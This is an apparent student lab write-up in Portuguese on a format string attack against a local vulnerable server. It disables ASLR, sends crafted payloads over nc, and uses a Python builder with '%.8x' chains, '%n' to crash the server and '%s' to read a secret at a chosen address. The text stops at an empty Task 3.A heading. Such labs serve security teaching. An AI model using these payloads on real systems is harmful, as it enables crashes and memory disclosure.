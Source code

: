 # Format String Attack

## Setup 

- Primeiramente desativamos as contramedidas existentes que dificultariam o nosso ataque.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

- Usámos o Docker Compose para construir e iniciar os containers.

```bash
$ dcbuild   # Alias para 'docker-compose build'
$ dcup      # Alias para 'docker-compose up'
```

- Num terminal diferente, após obtermos o `ID` do container desejado, acedemos a sua shell.

```bash
$ docksh 49  # Alias para 'docker exec -it <id> /bin/bash'
root@4929549778e2:/fmt#
```

## Task 1

- Mandamos a nossa primeira mensagem benigna para o servidor

```bash
$ echo 'hello' | nc 10.9.0.5 9090
^C
```

- O servidor retornou endereços importantes e termina com uma mensagem `Returned properly` visto que a nossa mensagem foi recebida com sucesso.

- Com a informação de que o servidor aceita apenas até 1500 bytes, atualizamos o ficheiro `build_string.py` para explorar essa vulnerabilidade.

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*25 + "%n" # alteraçâo do número de "%.8x"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

```bash
$ python3 build_string.py
$ cat badfile | nc 10.9.0.5 9090
```

- O servidor desta vez não apresentou a mensagem `Returned properly` o que demonstra que o servidor crashou.

## Task 2

### Task 2.A

- Escolhemos o valor `0xdeadbeef` para meter no início do nosso input, sendo assim fácil de identificá-lo caso o servidor o imprimisse.

- Após algumas tentativas, chegámos à conclusão de que foram necessários 64 especificadores de formato `%x` para acessar a localização da stack onde o valor estava alocado.

```py
unique_value = 0xdeadbeef
content[0:4]  =  (unique_value).to_bytes(4,byteorder='little')

s = "%.8x"*64
```

![image](screenshots/LB6_1.png)

### Task 2.B

- Identificamoso endereço da "secret message": `0x080b4008`

- Modificamos o nosso payload de modo a poder ler a mensagem secreta.

```py
number = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%.8x"*63 + "%s"
```
- A string formada pela expressão: `s = "%.8x"*63 + "%s"` salta 63 casas da stack e de seguida usa `%s` para interpretar o endereço da mensagem como um pointer para a string.

![image](screenshots/LB6_2.png)

## Task 3

## Task 3.A

